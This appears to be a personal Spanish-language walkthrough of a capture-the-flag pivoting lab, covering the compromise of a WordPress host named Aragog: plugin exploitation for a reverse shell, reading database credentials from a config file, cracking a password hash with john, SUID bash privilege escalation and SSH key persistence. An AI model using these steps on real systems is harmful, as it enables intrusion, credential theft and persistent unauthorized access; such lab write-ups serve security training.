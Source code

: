 ## <font color="#953734">Network</font>
Esta tabla indica el nombre de la máquina y cuantas interfaces tenemos que asignar a cada una

| <font color="#fbd5b5">Máquina</font>       | <font color="#fbd5b5">1ª Interface </font>        | <font color="#fbd5b5">2ª Interface</font>         |
| Aragog         | 192.168.50.230   | 10.10.0.129           |
| Nagini           | 10.10.0.130          | 192.168.100.131   |
| Fawkes         | 192.168.100.132 |                               |
| Dumbledore | 192.168.100.138 | 172.18.0.136          | 
| Matrix           | 172.18.0.133       | 10.15.12.130           |
| Brainpan       | 10.15.12.129        |                               |

## <font color="#953734">Explotación</font>
### <font color="#de7802">Aragog</font>
#### <font color="#fac08f">Enumeración</font>
- Puerto 22 
- Puerto 80
	- Gobuster /blog
	- Virtual host -> Overing ->  http://wordpress.aragog.hogwarts
	- Wappalizer -> Wordpress 5.0.12
	- Wordpress enumeración ->`sudo wpscan --api-token [TOKEN] --url http://wordpress.aragog.hogwarts/blog --enumerate` -> File manager pluggin vulnerable
#### <font color="#fac08f">Intrusion</font>
- searchsploit wp-file-manager -> php/webapps/51224.py
- `python3 51224.py [Command]` -> RevShell

##### <font color="#0070c0">www-data</font>
- `cat /etc/wordpress/config-default.php` -> credentials db root:mySecr3tPass
- Conection mysql:
	```mysql
	$> show databases;
	$> use wordpress;
	$> select * from wp_users;
	```
- Encontramos credentials hangrid98:\$P$BYdTic1NGSb8hJbpVEMiJaAiNJDHtc. ->  . `john --format=phpass --wordlist=/usr/share/seclists/Passwords/Leaked-Databases/rockyou.txt hash` -> hagrid98:password123

##### <font color="#0070c0">Hagrid98</font>
- Encontramos un archivo en /opt/.backup y con pspy vemos que este archivo lo ejecuta root y tenemos permisos de escritura.
- `chmod u+s /bin/bash` -> bash -p

##### <font color="#0070c0">Root</font>
- Crear "authorized\_keys" con nuestro .pub para crear futuras conexiones.
- Pwned!
